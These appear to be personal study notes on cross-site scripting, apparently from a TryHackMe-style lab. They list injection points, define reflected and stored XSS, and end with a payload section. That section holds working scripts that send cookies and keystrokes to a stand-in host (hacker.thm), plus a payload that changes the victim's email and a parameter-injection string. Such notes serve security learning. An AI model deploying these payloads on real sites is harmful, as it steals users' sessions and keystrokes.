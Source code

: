 
				Attack Vectors

-- Customizable Themes & Profiles via CSS
-- Event or meeting names
-- URI based
-- Imported from a 3rd party (think Facebook integration)
-- JSON POST Values (check returning content type)
-- File Upload names
-- Uploaded files (swf, HTML, ++)
-- Custom Error pages
-- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
-- Login and Forgot password forms

				Reflected XSS
-- supplied data in an HTTP request is included in the webpage source without any validation.	

-- Parameters in the URL Query String
-- URL File Path
-- Sometimes HTTP Headers


				Stored XSS
				
-- the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

-- Comments on a blog
-- User profile information  
-- Website Listings

				Payloads

-- Session Stealing
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
-- Key logger 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
-- Business Logic
<script>user.changeEmail('attacker@hacker.thm');</script>

				Beef Framwork